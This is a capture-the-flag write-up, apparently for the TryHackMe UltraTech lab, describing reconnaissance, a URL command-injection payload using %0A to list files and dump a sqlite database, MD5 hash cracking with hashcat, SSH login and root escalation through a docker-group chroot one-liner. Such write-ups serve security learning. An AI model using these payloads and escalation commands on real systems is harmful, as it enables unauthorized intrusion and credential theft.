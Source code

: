 # Recon

We start with a nmap scan on the target. 
```sh
sudo nmap -sV -sC -p- 10.10.125.217 -T4  
```

That shows us that several ports are open.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/1.png">
<br>
# Port 21
I tried connecting anonymously on the FTP server but without any luck.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/7.png">


I then conduct a directory scan with gobuster on both the services:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/6.png">
We find some interesting folders. Let's start off with port 31331.
<br>
# Port 31331
There's an Apache webserver running on this port. After visiting the page we discover possible usernames:

```sh
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
```
We read the robots.txt and find a reference to a textfile: /utech_sitemap.txt
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/3.png">


We also find a reference to a api that runs on port 8081. There seems to be a function which can be used to ping a host.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/4.png">
<br>
# Port 8081

> Method: Ideally we can abuse this function to do some code injection. We'll try to attempt it first with a command like ls and if proven successful we will expand this with downloading and executing a reverse shell on the host  

I tampered a bit with the url but had problems executing additional commands. I learned that i could add a newline character to add new command on a new line. We can use '%0A' for this.

I finally have a list command:
```sh
http://10.10.125.217:8081/ping?ip=localhost%0Als
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/5.png">

We discover a sqlite database. Let's see what's inside:
```sh
http://10.10.125.217:8081/ping?ip=localhost%0Acat%20utech.db.sqlite
```

We found two hashes:
```
r00t:f357a0c52799563c7c7b76c1e7543a32
admin:0d0ea5111e3c1def594c1684e3b9be84
```

Running them through hashid tells us that they're MD5 hashes. Let's fire up hashcat in an attempt to crack them.
```sh
hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt -w 3 -O
```
```
f357a0c52799563c7c7b76c1e7543a32:n100906         
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy  
```
We have succesfully cracked the hashes and will now try to connect with SSH.
<br>
# Initial foothold and privilege escalation
It looks like we don't further need to try to use command injection as we can successfully login using the r00t account. I logged in and started looking for ways to escalate our privileges. I searched for SUID's, sudo permissions and groups. Nothing stand out here except the group docker which has known vulnerabilities.

A search on GTFOBins tells us we can abuse this to escalate our privileges:

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
We now have a root shell.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/UltraTech/assets/8.png">



